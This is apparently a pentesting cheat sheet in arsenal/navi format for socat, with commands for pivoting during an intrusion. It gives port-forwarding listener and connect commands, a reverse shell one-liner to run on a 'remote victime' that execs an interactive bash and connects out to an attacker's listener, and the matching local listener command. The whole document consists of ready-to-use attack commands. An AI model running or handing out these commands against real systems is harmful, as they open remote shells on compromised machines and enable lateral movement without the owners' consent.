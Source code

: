 # socat

% socat

## socat port forwarding listener (on local machine)
#platform/linux  #target/remote  #cat/PIVOT 
```
./socat TCP-LISTEN:<port_listener|4444>,fork,reuseaddr TCP-LISTEN:<port_to_forward>
```

## socat port forwarding connect (on remote machine)
#platform/linux  #target/remote  #cat/PIVOT 
```
./socat TCP:<connect_ip>:<connect_port|4444> TCP:127.0.0.1:<port_to_forward>
```

## socat reverse shell (remote victime)
#platform/linux  #target/remote  #cat/PIVOT 
```
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<listner_ip>:<listner_port|4444>
```

## socat reverse shell listener (local)
#platform/linux  #target/remote  #cat/PIVOT 
```
socat file:`tty`,raw,echo=0 tcp-listen:<listner_port|4444>
```

